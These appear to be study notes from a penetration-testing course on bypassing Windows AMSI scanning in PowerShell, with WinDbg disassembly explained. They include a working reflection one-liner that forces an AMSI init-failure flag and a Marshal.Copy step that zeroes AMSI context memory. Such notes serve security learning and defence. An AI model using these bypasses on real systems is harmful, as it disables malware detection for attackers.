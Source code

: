 6. **Cast the Field Value to `IntPtr`**:
   ```powershell
   [IntPtr]$ptr=$g;
   ```
   Here, the value retrieved from the field is cast to an `IntPtr`. This suggests that the field value is likely a pointer (memory address), which could be referencing a block of memory or a handle to some resource.

7. **Prepare a Buffer to Write**:
   ```powershell
   [Int32[]]$buf = @(0);
   ```
   This creates a buffer containing a single element, `0`, of type `Int32`. This buffer will be used for writing to memory.

8. **Write the Buffer to the Memory Location**:
   ```powershell
   [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
   ```
   This line uses the `Marshal.Copy` method from `System.Runtime.InteropServices` to copy the content of the `$buf` (which contains just `0`) to the memory location pointed to by `$ptr`. The `0` indicates the starting index of the array, and the `1` specifies that one element (in this case, the single `0`) should be written.


#### 7.3.2.1

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iInitFailed") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$f.SetValue($null,$true)
```
#### 7.4.1.1

The command `u amsi!AmsiOpenSession L1A` in WinDbg is used to disassemble code. Here's what each part means:

1. **`u`**: This command stands for "Unassemble," which means to disassemble the code at a specified address or symbol.
    
2. **`amsi!AmsiOpenSession`**: This specifies the starting address for the disassembly. `amsi` is the module name, and `AmsiOpenSession` is a function within that module. The exclamation mark (`!`) separates the module name from the symbol name.
    
3. **`L1A`**: This specifies the length of the disassembly in instructions. `L1A` means to disassemble 0x1A (26) instructions starting from the address of `AmsiOpenSession`.
    

So, the command `u amsi!AmsiOpenSession L1A` tells WinDbg to disassemble 26 instructions starting at the beginning of the `AmsiOpenSession` function within the `amsi` module.

The `test rcx, rcx` instruction in assembly language is used to perform a bitwise AND operation between the `rcx` register and itself. This operation sets the processor's flags based on the result, but does not store the result anywhere. Essentially, it is used to check whether the value in `rcx` is zero or not.

### Explanation
